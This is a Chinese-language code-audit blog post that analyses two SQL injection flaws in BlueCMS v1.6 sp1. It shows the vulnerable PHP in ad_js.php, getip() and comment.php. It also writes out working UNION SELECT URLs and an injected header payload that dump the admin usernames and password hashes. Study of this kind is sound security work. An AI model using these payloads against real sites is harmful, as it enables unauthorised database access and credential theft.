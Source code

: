 ```yaml
---
title: 代码审计之SQL注入：BlueCMSv1.6 sp1
date: 2017-03-14 19:39:02
tags: [代码审计,SQL注入]
categories: Web安全
---
```

代码审计学习
本文首发于：[代码审计之SQL注入：BlueCMSv1.6 sp1](https://chybeta.github.io/2017/03/14/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E4%B9%8BSQL%E6%B3%A8%E5%85%A5%EF%BC%9ABlueCMSv1-6-sp1/)
<!-- more -->

# 工具及环境
+ bluecms v2.1 sp1
链接：http://pan.baidu.com/s/1dFKLanR 密码：8v1c
+ seay审计系统
链接：http://pan.baidu.com/s/1dENS4KT 密码：rszt
+ 环境
PHP: 5.4.45
MYSQL: 5.5.53


# 注入一
## 审计
用seay审计系统审计一下,定位到/ad_js.php。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms1.jpg)

该条语句为
```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

getone()是自定义的函数，用来查询数据库，代码如下：
```php
function getone($sql, $type=MYSQL_ASSOC){
  $query = $this->query($sql,$this->linkid);
  $row = mysql_fetch_array($query, $type);
  return $row;
}
```
回到ad_js.php
```php
"SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id
```
可见这里的变量 $ad_id 没有单引号保护。接下来看看这个变量的来源。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms2.jpg)

```php
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```
若通过GET获得ad_id则去除它两边的空白字符，否则为空。在获得了ad_id值后，接下来就直接将$ad_id送入了查询语句，没有做任何过滤，因此这里存在注入。

## 利用
+ 先查询列数

    /ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms3.jpg)

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,7,8
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms4.jpg)

    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,7
    无报错，且查看源代码发现数字7有回显。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms6.jpg)

+ 提取数据
利用元数据表爆出表名
```
    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()
```
![](http://ojp0pjljj.bkt.clouddn.com/bluecms9.jpg)

+ 爆出字段

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)
+ 获取用户名密码

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin  
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)

# 注入二
## 审计
函数定位：
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{ //????????????????????????????ip ???
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
直接获取了ip，并没有验证IP格式，因此我们可以伪造ip。查看一下有哪些位置调用了 getip() ，
![](http://ojp0pjljj.bkt.clouddn.com/bluecms13.jpg)

## comment.php页面
其中有如下代码

    $sql = "INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '".getip()."', '$is_check')";
    $db->query($sql);

可以看到，这里执行了INSERT语句，且调用了getip()，这里存在注入。

## 利用
这是目前的留言板：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms17.jpg)

在burp截包后，post参数如下：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms16.jpg)
所以

    user_id=2
    id=6 即 post_id=6 对应发表留言的文章id
    type=1
    mood=6 （这个无关紧要）

为了能让把管理员账号和密码回显出来，我们不能直接在getip()的位置上直接去查询。在前面的sql语句中，content变量是会回显到页面上的，这里利用这个位置去构造payload。

payload如下：

    1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1

payload分析：1','1')是为了完成第一次插入，之后的（）是为了完成第二次插入，前面的 '','6','2','1','6' 是与第一个插入语句的参数相对应。接下来，我们把查询到的账号密码放在了第六个参数即content位置，这样能实现回显。而最后的 '1','1  是要满足列数相等否则会出错，同时要注意闭合原本语句中的单引号，其中第一个 1 对应sql语句中的$timestamp，表示发表时间，这个无关紧要。

所以这样插入后完整的sql语句是：

    $sql = INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)
      VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1', '$is_check')";

![](http://ojp0pjljj.bkt.clouddn.com/bluecms18.jpg)
Forward后 注入成功。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms20.jpg)
